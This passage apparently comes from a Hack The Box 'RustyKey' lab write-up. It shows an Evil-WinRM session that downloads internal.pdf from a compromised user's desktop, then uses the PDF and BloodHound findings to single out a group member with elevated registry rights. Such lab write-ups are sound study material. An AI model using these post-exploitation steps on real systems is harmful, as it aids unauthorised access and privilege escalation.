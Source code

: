 We see that there is a `internal.pdf` file so let's download it.

```powershell
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> download internal.pdf
                                        
Info: Downloading C:\Users\bb.morgan\Desktop\internal.pdf to internal.pdf
                                        
Info: Download successful!
```

![Internal PDF](/assets/img/rustykey-htb-season8/internal_pdf.png)

This is like an email from `bb.morgan` to `support-team@rustykey.htb` that the `support-team` will have elevated registry permissions and temporary elevated rights. <br>
Checking back the bloodhound, we will notice that `ee.reed` is the member of `support-team@rustykey.htb` group.
